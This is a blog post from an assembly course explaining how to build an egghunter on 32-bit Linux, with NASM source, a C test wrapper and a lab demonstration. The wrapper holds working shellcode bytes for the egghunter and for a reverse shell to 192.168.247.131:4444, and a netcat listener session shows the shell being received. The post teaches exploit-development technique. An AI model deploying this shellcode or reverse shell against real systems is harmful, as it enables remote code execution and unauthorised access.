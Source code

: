 ```yaml
---
layout: post
title: SLAE 3 - Egghunter Shellcode
date:   2019-03-07
categories: [SLAE, Assembly]
---
```

## Creating an egghunter

In the past I have read about egghunters so I know their purpose and the general idea of how they work but I have never tried to create one or walk through actual implementation strategies.  Corelan has a great exploit writing series that involves a piece on egghunters in detail: \
The article references Skape's write up on egghunters and suggests that it should be a good starting point. So, I'll start with Skape's write up, then move to corelan, and then for extra reading.. the heap only egghunter seems interesting.
1. http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf \
2. https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/
3. http://r00tin.blogspot.com/2009/03/heap-only-egg-hunter.html 

- Egg size is best at 8 bytes
  * A 4 byte key that appears 2 times in a row.  This is because the 4 byte key is stored in memory and making it repeat avoids the situation that it runs into it's own stored key instead of the buffer.
  * This also increases speed because instead of searching for two unique keys it can search for 1 key twice in a row
- Some implementations require that the egg is executable assembly because control is passed to the egg and it will continue execution right into the payload after the egg.  
  * One could create an egghunter that jumps 8 bytes ahead of the egg but that creates unnecessary overhead (solution to this is in skape's writeup)
  * The implementation we will use checks the key with scasd which increases the pointer value by 4 each time we use it.  This is exacly what we need and reduces size while improving our egghunter.

- In 32-bit Linux, the best option for traversing memory without crashing would be to abuse the system call functionality.  Most system calls will return the EFAULT error code if it comes across an invalid memory address.  This can then be used to avoid dereferencing that address and keep from crashing the program.
  * A note is that if we find an invalid memory address, we increase the memory address that we are searching for by 0x1000 (PAGE_SIZE).  This is because if the address is invalid, the entire page will be invalid so we can just skip to the next.  If the address is valid but does not match the key/egg, then we increase by one to continue checking the next memory address in line.

Implementation strategy with system call access(2):
- int access(const char *pathname, int mode);

The syscall number can be found at /usr/include/asm/unistd.h
```c
#define __NR_access 33
```

So our steps are:
1. Prepare the key we will be searching for (4 bytes since our egg will be the key 2 times in a row)
2. Prepare the beginning memory address to check
3. Check if address is valid memory space, if not, we can skip by page size (0x1000) since the entire page will be invalid. Then repeat the memory check.
4. Address is valid.. now we check if the address we are at equals our key, if not, increase memory address by 1 and repeat from step 3
5. First half of egg identified, check address + 4 = key again.  If not, increase memory by 1 and repeat from step 3.
6. Egg found, pass execution to our identified address

One issue I ran in to was that ECX not getting zero'd out at the start caused the egghunter to fail when checking for valid addresses.  It would return an error that did not match EFAULT which led to the invalid address getting dereferenced -> segfault.  So, a short term solution was to just add the instruction to also zero out ecx.

```asm
global _start

section .text

_start:
  xor edx, edx
  xor ecx, ecx
new_page:
  or dx, 0xfff

inc_addr:
  inc edx
  
  lea ebx, [edx+0x4]
  
  push byte 0x21
  pop eax
  
  int 0x80    ; checking address
  
  cmp al, 0xf2  ; check if valid
  jz new_page
  
  ; valid address, check for egg
  mov eax, 0x50905090    
  mov edi, edx
  
  ; scasd compares value in eax to value at edi AND increases the pointer by 4 so we can use this to shorten our shellcode
  scasd
  jnz inc_addr
  
  ; match! check again for 2nd half of egg
  scasd
  jnz inc_addr
  
  ; found our egg, pass execution to this address (start of shellcode since scasd increased to AFTER our egg!)
  jmp edi
```

Time to test it..
Compile nasm, check for nulls, add to wrapper.  The wrapper below has the shellcode from the reverse shell (previously made):
```c
#include<stdio.h>
#include<string.h>

unsigned char egghunter[] = \
"\x31\xd2\x31\xc9\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

unsigned char code[] = \
"\x90\x50\x90\x50\x90\x50\x90\x50\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x43\x68\xc0\xa8\xf7\x83\x66\x68\x11\x5c\x66\x53\x43\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x89\xfb\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80";

main()
{
	printf("Egghunter Length: %d\n", strlen(egghunter));
	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())egghunter;

	ret();

}
```
You can see that we have adjusted the wrapper a little from previous write ups.  The code array has the egg at the beginning now and we have added the egghunter.  Running strace with the egghunter shows that the egghunter is properly searching all the memory addresses. 

Test it:
```
./shellcode
Egghunter Length: 37
Shellcode Length:  87
```
Receiving reverse shell and issuing command:
```
nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [192.168.247.131] port 4444 [tcp/*] accepted (family 2, sport 48834)
who
pwoer    tty7    Dec 11 10:13 (:0)
```
